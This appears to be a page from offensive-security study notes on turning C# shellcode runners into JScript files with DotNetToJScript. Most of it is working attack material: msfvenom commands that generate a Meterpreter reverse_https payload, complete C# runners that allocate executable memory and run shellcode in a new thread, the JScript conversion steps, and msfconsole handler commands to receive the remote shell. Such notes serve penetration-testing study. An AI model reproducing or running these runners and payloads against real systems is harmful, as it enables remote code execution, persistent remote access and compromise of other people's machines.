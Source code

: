 ```yaml
---
title: Jscript and C# (In Memory)
layout: default
parent: Shellcode
nav_order: 3
---
```


<b>JScript runs in 64 bit by default!</b>

## Normal C# Build ##

1. Visual Studio -> Create New Project.

2. Change language dropdown to "C#" and select "Console App (.NET Framework)".

3. Location select anywhere, the rest default.

4. Debug change to Release. 

5. Build -> Build Solution.

## DotNetToJscript ##

1. Open the solution.

2. "ExampleAssembly" project -> TestClass.cs

3. Put code in TestClass function.

4. Build -> Build Solution.

5. Copy the following files to a same folder:
`DotNetToJScript-master\DotNetToJScript\bin\Release\DotNetToJscript.exe`
`DotNetToJScript-master\DotNetToJScript\bin\Release\NDesk.Options.dll`
`DotNetToJScript-master\ExampleAssembly\bin\Release\ExampleAssembly.dll`

6. Run the following command on the folder:
`DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js`

7. The .js file can then be run without dll.

## Win32 API Calls ##

1. First browse to PInvoke.

2. Make the following changes:
* add the declaration `using ...`
* put the DllImport and function line in the class Program (but outside of Main)
* in Main, put in the call to the function added with required arguments

3. Sample code:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("user32.dll", CharSet = CharSet.Auto)]
        public static extern int MessageBox(IntPtr hWnd, String text, String caption, int options);

        static void Main(string[] args)
        {
             MessageBox(IntPtr.Zero, "This is my text", "This is my caption", 0);
        }
    }
}
```

## Shellcode Runner (C#) ##

1. Very similar to Powershell one, but generate msfvenom with:
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f csharp`

2. Some changes like can use Marshal.Copy directly instead of specifying the .NET namespace. Sample shellcode:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[630] {
  0xfc,0x48,0x83,...,0xb5,0xa2,0x56,0xff,0xd5 };

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

3. Beside the Debug/Release dropdown, select "Any CPU" -> Configuration Manager -> "Platform" dropdown -> x64

4. Build solution and done.

## JScript Shellcode (Using DotNetToJscript) ##

1. Generate msfvenom with:
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f csharp`

2. Use the following code (replace the buf):

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    public TestClass()
    {
        byte[] buf = xx;

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```

3. Set to x64 and build (just the EasyAssembly will do).

4. Copy the following files to a same folder (remember look at x64 for ExampleAssembly):
`DotNetToJScript-master\DotNetToJScript\bin\Release\DotNetToJscript.exe`
`DotNetToJScript-master\DotNetToJScript\bin\Release\NDesk.Options.dll`
`DotNetToJScript-master\ExampleAssembly\bin\x64\Release\ExampleAssembly.dll`

5. Run the following in that folder:
`DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js`

6. The runner.js is the actual file containing the payload.

7. Wait for incoming connection.

```
sudo systemctl start apache2
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```